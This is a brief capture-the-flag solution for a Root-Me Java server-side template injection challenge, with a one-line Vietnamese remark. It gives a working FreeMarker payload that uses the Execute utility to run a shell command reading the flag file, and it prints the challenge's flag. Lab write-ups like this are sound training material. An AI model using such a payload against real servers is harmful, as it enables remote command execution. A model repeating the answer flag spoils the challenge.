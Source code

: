 # [Java - Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

## Solutions

Copy payload trong tài liệu vào là xong :|

```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat  SECRET_FLAG.txt") }
```

Flag: `B3wareOfT3mplat3Inj3ction`

## References

- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf?_gl=1>
